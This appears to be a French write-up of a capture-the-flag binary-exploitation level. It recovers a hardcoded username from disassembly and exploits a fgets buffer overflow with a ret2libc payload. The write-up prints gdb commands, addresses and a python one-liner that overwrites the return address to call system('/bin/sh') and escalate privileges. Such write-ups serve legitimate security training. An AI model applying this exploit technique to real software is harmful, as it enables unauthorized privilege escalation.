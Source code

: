 # Level 01

En vérifiant la liste des symboles disponibles, on trouve:

```as
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
```

On peut voir une fonction `verify_user_name` et une fonction `verify_user_pass`. Regardons ça.

## Username

Dans `verify_user_name`, on trouve:

```as
0x08048478 <+20>:	mov    edx,0x804a040
0x0804847d <+25>:	mov    eax,0x80486a8
0x08048482 <+30>:	mov    ecx,0x7
0x08048487 <+35>:	mov    esi,edx
0x08048489 <+37>:	mov    edi,eax
0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

On peut deviner que le nom d'utilisateur est stoqué soit à `0x804a040` ou à `0x80486a8`. Après
avoir vérifié les deux adresses, on trouve que `0x80486a8` pointe vers la chaine `dat_wil`. C'est
notre nom d'utilisateur.

## Password

On pourrait essayer de reverse la fonction de mot de passe (et ça marcherait, il contient la chaine
de caractère `admin`). Cependant, cela ne sert à rien parce le résultat de cette fonction n'est pas
utilisé. Ça donne quelque chose du genre:

```c
int ret = verfiy_user_pass(&buf);
if (ret == 0 || ret != 0) {
    puts("nope");
    return 1;
}
```

Et puis de toute manière, même si la fonction marchait normalement, elle ne nous servirait à rien
parce qu'après ça, le programme s'arrête simplement sans nous donner la suite du sujet.

Il nous faut donc trouver un moyen de s'arranger pour le programme nous lance un shell avec son
niveau de privilège. Pour ça, on peut exploiter une vulnérabilité de la fonctions `fgets`, qui a
été mal protégée.

```c
char buf[64];
fgets(buf, 100, stdin);
```

On voit ici que `fgets` croit écrire dans un buffeur de taille 100, alors qu'en réalité le buffer
n'a une taille que de 64 octets. En concéquence, on peut essayer d'utiliser le fait que cette
fonction écrira trop loin pour écraser d'autres données du programme.

On va écraser l'adresse de retour de notre fonction pour y écrire l'adresse de `system`. Comme
`system` veut en premier paramètre le chemin d'accès vers un program à lancer, l'idée est de lui
donner `/bin/sh`.

Grace à l'outil [Wiremark](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), on peut
facilement déterminer que le buffer atteint l'adresse de retour après 80 octets.

![Stack Frame Overflow](./stack.png)

Le but est donc:

- Remplire la stack avec 80 octets random.

- Mettre l'adresse de `system`.

- Remplire la stack avec 4 octets random. C'est l'adresse de retour après que `system` ai terminé.

- Mettre les paramètres pour `system`. C'est là qu'on met l'adresse de `/bin/sh`.

On peut faire un petit script python pour générer l'output correct.

On peut trouver les addresses que l'on souhaite avec `gdb`.

- `find &system,+9999999,"/bin/sh"` donne l'adresse de `/bin/sh`.

- `print &system` donne l'adresse de `system`.

| system     | /bin/sh    |
---------------------------
| 0xf7e6aed0 | 0xf7f897ec |

```sh
(python -c "print 'dat_wil\n' + 'a' * 80 + '\xd0\xae\xe6\xf7' + '0000' + '\xec\x97\xf8\xf7' " ; cat -) | ./level01
```

On peut noter que les octets sont inversé parce que la machine est petit-boutiste.

Avec ça, on exécute le shell avec les permissions du programme, et on a un shell avec les
permissions du niveau suivant.
